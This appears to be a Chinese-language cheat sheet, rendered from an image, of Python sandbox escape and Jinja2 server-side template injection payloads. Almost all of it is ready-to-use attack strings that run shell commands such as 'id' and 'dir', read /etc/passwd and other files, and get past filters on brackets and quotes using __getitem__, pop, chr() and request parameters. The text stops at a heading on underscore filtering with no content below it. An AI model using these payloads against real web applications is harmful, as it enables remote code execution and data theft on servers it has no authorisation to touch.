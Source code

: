 #命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()

**过滤[**

#getitem、pop
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()

**过滤引号**

#chr函数
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
#命令执行
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id

**过滤下划线**
